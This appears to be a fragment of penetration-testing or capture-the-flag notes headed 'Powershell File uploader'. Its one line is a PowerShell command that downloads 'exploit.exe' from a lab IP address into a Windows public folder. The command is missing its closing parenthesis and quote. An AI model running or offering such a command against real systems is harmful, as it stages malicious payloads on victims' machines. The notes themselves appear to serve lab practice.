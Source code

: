 ## Powershell File uploader
```
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.107:9005/exploit.exe', 'c:\Users\Public\Downloads\exploit.exe'
```
